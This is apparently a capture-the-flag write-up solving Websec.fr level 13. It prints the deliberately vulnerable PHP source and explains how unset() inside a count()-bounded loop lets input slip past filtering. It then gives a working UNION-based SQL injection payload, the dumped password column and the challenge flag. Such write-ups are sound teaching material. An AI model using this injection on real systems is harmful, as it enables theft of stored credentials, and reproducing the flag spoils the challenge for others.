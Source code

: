```yaml
---
title: Websec.fr level 13 - easy
date: October 24, 2024 00:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/93357d02-f026-4b10-a953-5203f02def84)



```php
<?php
<!-- Yet an other fine level, based on a real-world vuln discovered by @caillou -->
<?php

// Defines $flag
include 'flag.php';

$db = new PDO('sqlite::memory:');
$db->exec('CREATE TABLE users (
  user_id   INTEGER PRIMARY KEY,
  user_name TEXT NOT NULL,
  user_privileges INTEGER NOT NULL,
  user_password TEXT NOT NULL
)');

$db->prepare("INSERT INTO users VALUES(0, 'admin', 0, '$flag');")->execute();

for($i=1; $i<25; $i++) {
  $pass = md5(uniqid());
  $user = "user_" . substr(crc32($pass), 0, 2);
  $db->prepare("INSERT INTO users VALUES($i, '$user', 1, '$pass');")->execute();
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Thirteen</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                <div class="row">
                    <h1>LevelThirteen <small> - A privilege offer</small></h1>
                </div>
                <div class="row">
                    <p class="lead">
                                            A simple tool to display privileges, so you can check them.
                                            As usual, the source code can be found <a href="source.php">here</a>.
                    </p>
                </div>
            </div>
            <div class="container">
              <div class="row">
                <form class="form-inline" method='get'>
                                    Ids to display
                  <input name='ids' class='form-control' type='text' value='1,2,3'>
                  <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                </form>
              </div>

<?php
if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);

    echo '<br>';
    echo '<div class="well">';
  echo '<ul>';
  while ($row = $stmt->fetch(\PDO::FETCH_ASSOC)) {
        echo "<li>";
        echo "User <em>" . $row['user_name'] . "</em>";
      echo "    with id <code>" . $row['user_id'] . '</code>';
        echo " has <b>" . ($row['user_privileges'] == 0?"all":"no") . "</b> privileges.";
        echo "</li>\n";
  }
    echo "</ul>";
    echo "</div>";
}
?>
            </div>
        </div>
    </body>
</html>
```

This time I put all the code because it's it all pretty important. OK! let's begin. We have a data base. First, we see that <b>admin</b> user_name with <b>0</b> id has the password <b>$flag</b>. So our purpose is to get the id 0's password. How do we do that ?

This code fills the database <b>"users"</b> with 25 different users. The input later takes id's like "1,2,3". Then splits in into an array, and if there a 0 it unsets it from the list. At the final stage it recomibines it to the string then queries the users for those id.

## What's the caveat ?
Look at this loop
```php
$tmp = explode(',',$_GET['ids']);
for ($i = 0; $i < count($tmp); $i++ ) {
    $tmp[$i] = (int)$tmp[$i];
    if( $tmp[$i] < 1 ) {
        unset($tmp[$i]);
    }
}
```

if we unset an element of the list, the count will change right? that means that the loop will stop if the array is too long. Look at this code and it's output.

```php
<?php
// Simulated input
$input = '4,0,0,0,0,5'; // Values to process
$tmp = explode(',', $input);
echo "Initial count: " . count($tmp) . "\n"; // Initial count

for ($i = 0; $i < count($tmp); $i++) {
    $tmp[$i] = (int)$tmp[$i]; // Convert to integer
    echo "Count after conversion at index $i: " . count($tmp) . "\n"; // Count after conversion

    if ($tmp[$i] < 1) {
        unset($tmp[$i]);
        echo "Count after unsetting at index $i: " . count($tmp) . "\n"; // Count after unsetting
    }
}

// Final output of valid IDs
echo "Final valid IDs: " . implode(',', $tmp) . "\n";
echo "Final count of valid IDs: " . count($tmp) . "\n"; // Final count

// Echo the original input after processing
echo "Original input after processing: " . implode(',', $tmp) . "\n"; // Echoing the processed input
?>
```

```
php /tmp/DQsGXDOTox.php
Initial count: 6
Count after conversion at index 0: 6
Count after conversion at index 1: 6
Count after unsetting at index 1: 5
Count after conversion at index 2: 5
Count after unsetting at index 2: 4
Count after conversion at index 3: 4
Count after unsetting at index 3: 3
Final valid IDs: 4,0,5
Final count of valid IDs: 3
Original input after processing: 4,0,5
```
Original input after processing: 4,0,5. Meaning, the count was decreased each time, and the for loop exisited before removing the final 0. Great !! So now we know what input of id's to insert. Let's try it.


![image](https://github.com/user-attachments/assets/eda10a68-db98-4bd2-b3e5-cb888d063207)

WELL, we know that user admin has all privileges. What does that help us ? Let's look at the final query again.

```php
$query = "SELECT user_id, user_privileges, user_name
FROM users
WHERE (user_id in (" . $selector . "));";`
```

Selecting 3 columns without the user_password, meaning we need a <b>UNION</b> statment here to choose the password, and not make too long because of the len check

```php
if ( strlen($_GET['ids']) > 70) {
    die("Please don't check all the privileges at once.");
}
```

Great, let's build it
```sql
1,0,0,0,2 )) UNION SELECT user_password, 1, 2 FROM users;
```

Why the )) ? Because the we need to inject it into the
```php
$selector = implode(',', array_unique($tmp));

$query = "SELECT user_id, user_privileges, user_name
FROM users
WHERE (user_id in (" . $selector . "));";`
``` 

Remember, in UNION the number of columns needs to be identical for both SELECT statments (that's why the user_password, then 1, 2)

Great, what do we get ?

```
User user_27 with id 1 has no privileges.
User user_27 with id 2 has no privileges.
User 2 with id 0bb3ae4666fe9dc85fc881f4b50ac799 has no privileges.
User 2 with id 30c230596b57f0300b9ece80a166a97f has no privileges.
User 2 with id 3a5dcf2ccd137c387d2e301540f750da has no privileges.
User 2 with id 4a8398704bbeb7e49aa610e5678a447e has no privileges.
User 2 with id 53352a755722a8c34b7883d301dcf857 has no privileges.
User 2 with id 584fbc15512ad0c9c2776f474ffafde3 has no privileges.
User 2 with id 5a3baef3cb4b51c45714a560d500cc19 has no privileges.
User 2 with id 5b01bc0c4389c6c2d18acb7c112cc8b4 has no privileges.
User 2 with id 608baefb79dc839c1e2fa98946260297 has no privileges.
User 2 with id 638a5304b26f20a400b29021275a906b has no privileges.
User 2 with id 6bfdf6faaaca4ebf44d1c533d2004e2f has no privileges.
User 2 with id 8456825b70310699d1b17e898ad496db has no privileges.
User 2 with id 890b7ffc93131dda52dd607625f23f02 has no privileges.
User 2 with id 96574db1a037cfd4f596e3b8716be03f has no privileges.
User 2 with id 9d83e36e0fa1b0c493a24288e5080158 has no privileges.
User 2 with id WEBSEC{SQL_injection_in_your_cms,_made_simple} has no privileges.
User 2 with id a50e95877aacc22c160405273eff83a8 has no privileges.
User 2 with id a6005e223e56a65081cedc2c54bc03f8 has no privileges.
User 2 with id bc4eb02a196e2bd8fe7a5c94d707befa has no privileges.
User 2 with id c1898885de0431ab1ca8e5bc6dca6917 has no privileges.
User 2 with id ca9af06cd2e71f92d47bd23e759dfca8 has no privileges.
User 2 with id d4ba99f0bf9a8c10f672c3128a0a446d has no privileges.
User 2 with id d7576301f7f508b011cb4a8137bfdaf0 has no privileges.
User 2 with id e950dd57e4aab1dbe00f2d566bdc8fbc has no privileges.
User 2 with id ff506985f19a872d98f0e8803d1b504e has no privileges.
```


```
WEBSEC{SQL_injection_in_your_cms,_made_simple}
```

Thanks for reading !!!
